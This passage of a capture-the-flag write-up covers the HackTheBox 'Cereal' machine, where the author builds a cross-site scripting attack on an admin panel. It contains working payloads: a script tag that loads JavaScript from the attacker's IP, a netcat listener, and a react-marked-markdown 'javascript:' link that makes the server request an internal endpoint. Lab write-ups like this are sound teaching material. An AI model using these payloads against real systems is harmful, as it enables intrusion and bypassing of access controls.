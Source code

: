 # XSS in Admin Panel

We cannot access the Admin Panel, due to it being an authenticated `PrivateRoute`. However, we can see that it renders cereal request objects on the page, which may make it vulnerable to a cross-site scripting attack.

```jsx
<div>
	{requestData &&
		<Card.Body>
			Description:{requestData.description}
			<br />
			Color:{requestData.color}
			<br />
			Flavor:{requestData.flavor}
		</Card.Body>
	}
</div>
```

This is assuming there is a simulated 'admin' user viewing this page. This is sometimes the case on HacktheBox, for example on the Crossfit machine.

**How can we leverage the XSS?**

The IP whitelist means that only the box itself can make requests to certain methods, including the vulnerable one we wish to target. If we can make the box make a HTTP request using javascript, we can bypass the IP restriction.

**Note**

When I first tried this box, I couldn't initially get the XSS working and instead moved on to testing the Deserialisaton. I've reordered what I tried in the writeup slightly as it made more sense this way, but as always you can skip to the [[30 - XSS#Fixing the XSS|correct method]] if you don't want to read about my failed attempts.

## Trying a Basic XSS

We create a simple javascript file, `0.js`, that makes a request to our box. This is just to test we can run javascript on the box.

```javascript
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://10.10.14.62/example.txt");
oReq.send();
```

We then want to submit a request to this javascript file as a script in the description field.

```javascript
<script src="10.10.14.62/0.js"></script>
```

To generate this, we run the stringify script on the following JSON:

```javascript
console.log(JSON.stringify({ JSON: JSON.stringify({title:'t',flavor:'f',color:'#FFF',description:'<script src="10.10.14.62/0.js"></script>' }) }))
```

Which creates our payload:

```json
{"JSON":"{\"title\":\"t\",\"flavor\":\"f\",\"color\":\"#FFF\",\"description\":\"<script src=\\\"10.10.14.62/0.js\\\"></script>\"}"}
```

We could make the `XMLHTTPRequest()` in the description field, but it is much nicer to request a file as a script source - it keeps the payload short, and allows us to easily edit the file on our box.

Our final bit of setup is to run a netcat listener to catch the request:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ sudo nc -lnvp 80
[sudo] password for mac: 
listening on [any] 80 ...
```

Then we submit the payload and wait for a response:

![[Pasted image 20210406101322.png]]

We don't get anything back to netcat. Creating a `0.html` file that runs our `0.js` script locally does give us a response, so we know the `XMLHTTPRequest` works and the server is setup correctly:

![[Pasted image 20210406101542.png]]

This suggests the description field may not be vulnerable in this way, or there is something preventing the box from making outgoing requests.

## Fixing the XSS

When I first did this box, I wasn't sure which parts of my payload were broken until I tested them all together. It turned out to be, well, both parts. But rather than writing this up in chronological order and having a broken XSS payload for half of my writeup, I've moved the working payload to this section. As always, you can skip to the final working payload if you want.

### Markdown Overview

When I took another look at the code in `ClientApp/src/AdminPage/AdminPage.jsx`, I noticed something I'd missed before:

![[Pasted image 20210607210839.png]]

I googled "markdown preview xss" first, but that gave me some [generic markdown XSS payloads](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8). They ultimately didn't look right - I suspected if a basic `<script>` tag wouldn't work on a Hard box, then neither would a [basic script tag rendered by markdown](https://github.com/JakobRPennington/InformationSecurity/blob/master/Payloads/md/XSS.md). So I looked at the source of the `MarkdownPreview` element (`import { MarkdownPreview } from 'react-marked-markdown';`) and googled "react-marked-markdown xss" instead.

This [snyk post](https://snyk.io/vuln/npm:react-marked-markdown:20180517) and corresponding [git repo](https://github.com/advisories/GHSA-m7qm-r2r5-f77q) looked more promising. They described a proof of concept in the `value` field of the `MarkdownPreview` element:

```jsx
import React from 'react'
import ReactDOM from 'react-dom'
import { MarkdownPreview } from 'react-marked-markdown'

ReactDOM.render(
<MarkdownPreview
markedOptions={{ sanitize: true }}
value={'[XSS](javascript: alert`1`)'}
/>,
document.getElementById('root')
)
```

Our cereal's `title` is inserted into this field! So in theory we can create one with a title similar to the following:

```jsx
[mouldy cereal](javascript: var oReq = new XMLHttpRequest();oReq.open("GET", "http://localhost/requests?id=9");oReq.send();)
```

To test this works, we need to move on to the next stage - chaining this and the deserialisation payload together.

In general it's good to test things locally before sending them at the remote application, and I would do that on a real assessment. But as it's just HTB and there's no need for opsec, I decided not to fiddle around with building the app locally.
